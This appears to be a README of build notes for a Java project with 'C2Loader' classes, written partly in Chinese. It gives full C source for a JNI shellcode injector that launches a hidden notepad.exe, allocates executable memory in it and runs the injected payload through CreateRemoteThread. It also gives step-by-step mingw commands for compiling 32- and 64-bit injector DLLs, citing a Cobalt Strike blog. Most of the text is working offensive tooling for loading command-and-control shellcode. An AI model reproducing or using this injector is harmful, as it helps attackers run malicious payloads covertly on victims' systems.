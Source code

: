 # run

```
mvn clean package -DskipTests
java -jar target/java_test_web.jar
```

# ASm

java -cp 'asm-6.0_ALPHA.jar:asm-util-6.0_ALPHA.jar'  org.objectweb.asm.util.ASMifier  WindowsVirtualMachine.class

# Mark

C2Loader 为跨平台，但需要走进程方式，否则会造成dos。
WinC2Loader、WinC2Loader1同原理， WindowsVirtualMachine为WinC2Loader、WinC2Loader1的实现方式

LibC2Loader:
https://www.cobaltstrike.com/blog/how-to-inject-shellcode-from-java/


nano /Users/orleven/Product/test/java_test_web/src/main/java/LibC2Loader.java

```
public class LibC2Loader {
public native void inject(byte[] me);
}
```

cd /Users/orleven/Product/test/java_test_web/src/main/resources/dll/
cp /Users/orleven/Product/test/java_test_web/src/main/java/LibC2Loader.java /Users/orleven/Product/test/java_test_web/src/main/resources/dll/src-java
javac -d bin -cp bin src-java/LibC2Loader.java
javah -classpath bin -jni -o src/injector.h LibC2Loader
nano src/injector.c

```
#include <injector.h>

JNIEXPORT void JNICALL Java_LibC2Loader_inject(JNIEnv * env, jobject object, jbyteArray jdata) {
   jbyte * data = (*env)->GetByteArrayElements(env, jdata, 0);
   jsize length = (*env)->GetArrayLength(env, jdata);
   inject((LPCVOID)data, (SIZE_T)length);
   (*env)->ReleaseByteArrayElements(env, jdata, data, 0);
}

/* inject some shellcode... enclosed stuff is the shellcode y0 */
void inject(LPCVOID buffer, int length) {
    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    HANDLE hProcess   = NULL;
    SIZE_T wrote;
    LPVOID ptr;
    char lbuffer[1024];
    char cmdbuff[1024];

    /* reset some stuff */
    ZeroMemory( &si, sizeof(si) );
    si.cb = sizeof(si);
    ZeroMemory( &pi, sizeof(pi) );

    /* start a process */
    GetStartupInfo(&si);
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    si.wShowWindow = SW_HIDE;
    si.hStdOutput = NULL;
    si.hStdError = NULL;
    si.hStdInput = NULL;

    /* resolve windir? */
    GetEnvironmentVariableA("windir", lbuffer, 1024);

    /* setup our path... choose wisely for 32bit and 64bit platforms */
    #ifdef _IS64_
        _snprintf(cmdbuff, 1024, "%s\\SysWOW64\\notepad.exe", lbuffer);
    #else
        _snprintf(cmdbuff, 1024, "%s\\System32\\notepad.exe", lbuffer);
    #endif

    /* spawn the process, baby! */
    if (!CreateProcessA(NULL, cmdbuff, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi))
        return;

    hProcess = pi.hProcess;
    if( !hProcess )
        return;

    /* allocate memory in our process */
    ptr = (LPVOID)VirtualAllocEx(hProcess, 0, length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    /* write our shellcode to the process */
    WriteProcessMemory(hProcess, ptr, buffer, (SIZE_T)length, (SIZE_T *)&wrote);
    if (wrote != length)
        return;

    /* create a thread in the process */
    CreateRemoteThread(hProcess, NULL, 0, ptr, NULL, 0, NULL);
}
```

cp C:\Program Files\Java\jdkXXXXXXXX\include include
nano src\injector.def

```
EXPORTS
    Java_LibC2Loader_inject
```

https://ports.macports.org/port/i686-w64-mingw32-gcc/

win 32
i686-w64-mingw32-gcc -c src/*.c -l jni -I include -I include/win32 -Wall -D_JNI_IMPLEMENTATION_ -Wl,--kill-at -shared
i686-w64-mingw32-dllwrap --def src/injector.def injector.o -o temp.dll
strip temp.dll -o bin/injector.dll

win 64
x86_64-w64-mingw32-gcc -m64 -c src/*.c -l jni -I include -I include/win32 -Wall -D_JNI_IMPLEMENTATION_ -D_IS64_ -Wl,--kill-at -shared
x86_64-w64-mingw32-dllwrap -m64 --def src/injector.def injector.o -o temp.dll
strip temp.dll -o bin/injector64.dll

other
i686-w64-mingw32-gcc -c src/*.c -l jni -I include -I include/win32 -Wall -D_JNI_IMPLEMENTATION_ -Wl,--kill-at -shared
i686-w64-mingw32-dllwrap --def src/injector.def injector.o -o temp.dll
strip temp.dll -o bin/injector.dll

add code for java
nano /Users/orleven/Product/test/java_test_web/src/main/java/LibC2Loader.java 
